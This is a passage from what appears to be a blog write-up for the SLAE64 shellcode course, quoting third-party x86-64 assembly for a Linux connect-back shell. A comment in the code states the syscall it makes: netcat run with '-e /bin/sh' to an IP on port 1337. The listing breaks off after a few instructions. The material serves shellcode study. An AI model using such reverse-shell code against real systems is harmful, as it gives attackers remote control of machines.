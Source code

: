 ![poly etc](/static/blog/2018/SLAE64/6/poly_etc_passwd.png)

###Connect back shell with netcat

Here is the original shellcode:

    ; { Title: Shellcode linux/x86-64 connect back shell }

    ; Author    : Gaussillusion
    ; Len       : 109 bytes
    ; Language  : Nasm

    ;syscall: execve("/bin/nc",{"/bin/nc","ip","1337","-e","/bin/sh"},NULL)

    BITS 64
    xor     rdx,rdx
    mov     rdi,0x636e2f6e69622fff
    shr rdi,0x08
    push    rdi
    mov     rdi,rsp
